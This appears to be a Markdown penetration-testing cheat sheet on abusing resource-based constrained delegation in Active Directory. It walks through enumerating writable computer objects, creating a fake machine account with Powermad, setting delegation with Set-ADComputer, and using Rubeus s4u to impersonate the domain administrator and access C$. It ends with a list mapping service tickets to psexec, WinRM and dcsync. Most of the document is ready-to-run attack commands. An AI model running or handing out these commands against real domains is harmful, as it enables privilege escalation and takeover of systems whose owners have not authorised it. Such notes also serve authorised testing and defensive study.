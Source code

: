 # Methodology
>1. Enumerate if the compromised user has GenericWrite or GenericAll over a machine (BloodHound recommended!).
>2. Compromise or create a machine account.
>3. Set RBCD on the target machine (the one you want to access), allowing it to trust the compormised or created machine.
>4.  Impersonate a high value target only on target machine.

---
# Powershell
>**ℹ️ Info:**
>
> Remember to follow the [PowerShell scripts methodology](../00%20-%20Miscellaneous/01-%20Methodology.md#PowerShell%20Scripts).

## PowerView

> ⚠️ **PAY ATTENTION:**
> If we already have compromised a domain machine, we can skip the machine creation part and use its AES key (SID: S-1-5-18).

**Check for GenericWrite/GenericAll:**
```powershell
# Save the Domain SID
$DomainSID = (Get-DomainController).DomainSID

Get-DomainComputer | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "WriteProperty|GenericWrite|GenericAll|WriteDacl" -and $_.SecurityIdentifier -match "$($DomainSID)*" }
```

**Check if domain controller is at least Windows 2012:**
```powerhsell
Get-DomainController | Select-Object Name, OSVersion
```

**Check if `ms-ds-machineaccountquota` is enabled:**
```powershell
Get-DomainObject -Identity "dc=contoso,dc=local" -Domain contoso.local | Select-Object ms-DS-MachineAccountQuota
```

**Check if target machine doesn't have `msds-allowedtoactonbehalfofotheridentity`attribute set:**
```powershell
Get-NetComputer target_computer | Select-Object -Property name, msds-allowedtoactonbehalfofotheridentity
```

**Create a new computer object:**
https://github.com/Kevin-Robertson/Powermad/blob/master/Powermad.ps1
```powershell
Import-Module Powermad.ps1
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```

## ActiveDirectory Module
**Configure RBCD on target:**
```powershell
$comps = 'fake01$'
Set-ADComputer -Identity target_computer -PrincipalsAllowedToDelegateToAccount $comps
```

---
# Binaries
>**ℹ️ Info:**
>
> Remember to follow the [binaries methodology](../00%20-%20Miscellaneous/01-%20Methodology.md#Binaries).

> ⚠️ **PAY ATTENTION:**
> If we already have compromised a domain machine, we can skip the machine creation part and use its AES key (SID: S-1-5-18).

## Rubeus
**Generate RC4 hash of new computer object:**
```cmd
Rubeus.exe hash /password:123456 /user:fake01 /domain:contoso.local
```

**Impersonate high value target:**
```cmd
# With an NTLM hash (Usually flagged by EDRs)
rubeus.exe s4u /user:fake01$ /rc4:32ED87BDB5FDC5E9CBA88547376818D4 /impersonateuser:administrator /msdsspn:cifs/target_computer.contoso.local /ptt

# With an AES-256 key (Admin cmd required)
rubeus.exe s4u /user:fake01$ /aes256:d1027fbaf7faad598aaeff08989387592c0d8e0201ba453d83b9e6b7fc7897c2 /impersonateuser:administrator /msdsspn:cifs/target_computer.contoso.local /ptt
```

**Verify target:**
```cmd
dir \\target_computer\C$  
```

>**ℹ️ Info:**
> Different SPN and what they're used for:
>- CIFS for directory browsing, copying files.
>- HTTP for WinRS.
>- HOST and CIFS for psexec.
>- HOST and RPCSS for WMI.
>- HOST and HTTP for PowerShell Remoting/WINRM.
>- LDAP for dcsync.